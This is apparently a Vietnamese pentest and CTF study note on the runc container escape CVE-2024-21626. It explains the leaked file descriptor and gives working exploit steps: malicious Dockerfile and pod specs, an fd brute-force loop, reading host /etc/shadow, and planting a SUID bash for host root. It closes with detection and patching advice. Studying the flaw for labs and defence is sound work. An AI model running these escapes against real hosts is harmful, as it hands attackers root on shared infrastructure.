

> **Prerequisites**: [[17-docker-lxc-security|17. Docker & LXC Security]]
> **Objectives**:
> - Hiểu kiến trúc runc và tại sao file descriptor leak dẫn đến host escape
> - Khai thác CVE-2024-21626 (Leaky Vessels) để escape container
> - Phân tích PoC và adapt cho CTF/pentest scenarios
> - Hiểu phạm vi ảnh hưởng: Docker, Kubernetes, containerd
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - runc < 1.1.12 (released January 31, 2024)
> - Docker < 25.0.2, < 24.0.9 hoặc containerd < 1.7.13, < 1.6.27
> - Attacker có thể trigger container creation hoặc exec (phổ biến trong CI/CD)
> - Attacker kiểm soát image hoặc command được execute trong container
>
---

## Cơ chế tấn công

### runc và File Descriptor Leak

runc là OCI container runtime — chương trình tạo container thực sự. Khi `docker run` hoặc `docker exec` được gọi, Docker gọi runc để setup namespace, cgroups, và exec process.

**Bug CVE-2024-21626**: runc mở file descriptor `/proc/self/fd` (hoặc internal working directory `/proc/thread-self/fd`) trong quá trình container setup. Nhưng file descriptor này trỏ vào host filesystem — **nó không bị close trước khi container process start**.

```text
runc (host process):
  1. Setup namespaces
  2. open("/proc/self/fd/...")    ← opens fd pointing to HOST filesystem
  3. ... setup more things ...
  4. exec container_init
     [Container process starts]
     → Container process INHERITS the open fd!
     → /proc/self/fd/<N> trong container → HOST filesystem path!
```

**Khai thác**: Container process có thể dùng inherited fd để access host filesystem:

```bash
# Trong container, inherited fd trỏ vào host /proc/self/fd
ls /proc/self/fd/
# Thấy fd không thông thường: /proc/self/fd/7 → /proc/thread-self/fd/
# Đây là symlink vào host /proc/... → host filesystem access!

# Navigate qua fd leak:
ls /proc/self/fd/7/../../root/   # → host /root directory!
```

### Attack Variants

**Variant 1: Malicious Image**

Dockerfile chứa `WORKDIR` đặc biệt khiến runc giữ fd mở:

```dockerfile
FROM ubuntu
WORKDIR /proc/self/fd/8/../../../
CMD ["/bin/sh"]
```

Khi container start, process bắt đầu với CWD trỏ vào host filesystem!

**Variant 2: Malicious exec command**

```bash
# Attacker chạy docker exec với command đặc biệt:
docker exec container_id /proc/self/fd/7/bin/bash
# → Execute host /bin/bash từ container context
```

---

## Quy trình tấn công

**Môi trường**: Docker 24.0.5 với runc 1.1.9 (vulnerable), attacker có thể tạo container.

**Bước 1 — Verify runc version**

```bash
# Từ host (sau khi có host access) hoặc nếu biết Docker version:
runc --version
# runc version 1.1.9 → VULNERABLE (< 1.1.12)

docker version | grep -i runc
# runc 1.1.9
```

**Bước 2 — Create malicious Dockerfile**

```dockerfile
# Dockerfile.escape
FROM ubuntu:22.04
# WORKDIR trick: đặt working dir vào host proc fd path
WORKDIR /proc/self/fd/8/../../../
CMD ["/bin/sh", "-c", "ls; id"]
```

**Bước 3 — Build và run**

```bash
# Build image
docker build -t escape -f Dockerfile.escape .

# Run container
docker run --rm -it escape
# → CWD của container process là HOST filesystem root!
# → ls → thấy host /, etc, home, root...

# Trong container:
ls     # host / directory
id     # uid=0(root) — đang là root trong container (với host fs access)
cat /etc/shadow    # HOST /etc/shadow!
cp /bin/bash /tmp/escape; chmod 4755 /tmp/escape  # SUID bash trên HOST
```

**Bước 4 — Escalate via SUID**

```bash
# Từ host (hoặc sau khi escape):
/tmp/escape -p
# uid=0(root) gid=0(root) → root shell!
```

**Bước 5 — Alternative — exec variant**

```bash
# Nếu đã có container chạy, dùng docker exec với path traversal:
docker exec -it <container_id> sh -c 'cd /proc/self/fd/8/../../../ && ls && cat /etc/shadow'
```

---

## Biến thể & Bypass

### Kubernetes pod escape

```yaml
# Malicious pod spec:
apiVersion: v1
kind: Pod
spec:
  containers:
  - name: escape
    image: ubuntu
    command: ["/proc/self/fd/8/../../../bin/bash"]
    args: ["-c", "cp /bin/bash /tmp/r; chmod 4755 /tmp/r"]
    workingDir: "/proc/self/fd/8/../../../"
```

### Xác định đúng fd number

fd number (8 trong ví dụ) có thể thay đổi tùy runc version và configuration:

```bash
# Trong container, enumerate fd:
ls -la /proc/self/fd/
# Tìm fd có symlink trỏ vào /proc/thread-self/fd hay path bất thường
# Thử 5, 6, 7, 8, 9...

# Hoặc dùng brute force script:
for i in $(seq 1 20); do
    target=$(readlink /proc/self/fd/$i 2>/dev/null)
    echo "fd/$i → $target"
done
```

---

## Cây quyết định



---

## Command Cheatsheet

**Check runc version**

```bash
runc --version | grep "runc version"
# < 1.1.12 → vulnerable
```

**Minimal Dockerfile**

```dockerfile
FROM ubuntu
WORKDIR /proc/self/fd/8/../../../
CMD ["/bin/sh"]
```

**Find correct fd number**

```bash
for i in $(seq 1 15); do echo -n "fd/$i: "; readlink /proc/self/fd/$i 2>/dev/null || echo "n/a"; done
```

**Exploit after escape**

```bash
# Trong container với host CWD:
cp bin/bash tmp/r && chmod 4755 tmp/r
# Trên host: /tmp/r -p → root
```

---

## Daily Drill

**Thời gian**: 15 phút (một lần để hiểu rõ).

**Drill 1 — Giải thích fd leak mechanism**
Mục tiêu: Giải thích tại sao inherited fd → host access không nhìn notes.

```text
runc opens /proc/self/fd internally → doesn't close before exec → container inherits → /proc/self/fd/<N> → host path
```

**Drill 2 — Malicious Dockerfile từ nhớ**

```dockerfile
FROM ubuntu
WORKDIR /proc/self/fd/8/../../../
CMD ["/bin/sh"]
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Docker audit**: Container với unusual WORKDIR `/proc/self/fd/...` → alert
> **File access**: Container process accessing `/proc/self/fd/<N>` with path traversal
> **Falco rule**: `proc.cwd startswith "/proc"` trong container → suspicious
>
> [!note] Mitigation
> - **Update runc >= 1.1.12** (released 2024-01-31) — fix dứt điểm
> - Docker >= 25.0.2 hoặc 24.0.9
> - containerd >= 1.7.13 hoặc 1.6.27
> - OPA/Gatekeeper: deny pods với workingDir starting with `/proc`
> - Image scanning: flag Dockerfiles với unusual WORKDIR
>
---

## Lab Thực hành

| Platform | Challenge/Setup | Tại sao phù hợp |
|----------|-----------------|----------------|
| HTB | **Giveback** (Retired) | runc CVE-2024-21626 trong CTF |
| Local | Docker 24.0.5 + runc 1.1.9 | Reproduce với vulnerable versions |
| CVE PoC | github.com/Wall1e/CVE-2024-21626-POC | Reference implementation |

---

## Field Manual Entry

> [!abstract] runc Escape (CVE-2024-21626) — Quick Reference
> **Điều kiện**: runc < 1.1.12 / Docker < 25.0.2; khả năng tạo container hoặc exec
> **Mechanism**: runc fd leak → container inherits host /proc/self/fd reference → path traversal
> **Quick**: `FROM ubuntu; WORKDIR /proc/self/fd/8/../../../; CMD ["/bin/sh"]` → container CWD = host /
> **Find fd**: `for i in $(seq 1 15); do readlink /proc/self/fd/$i; done` → tìm /proc/thread-self/fd path
> **Escalate**: `cp bin/bash tmp/r; chmod 4755 tmp/r` → `/tmp/r -p`
> **Ref**: [[24-runc-cve-2024-21626|24. runc Escape — CVE-2024-21626]]
>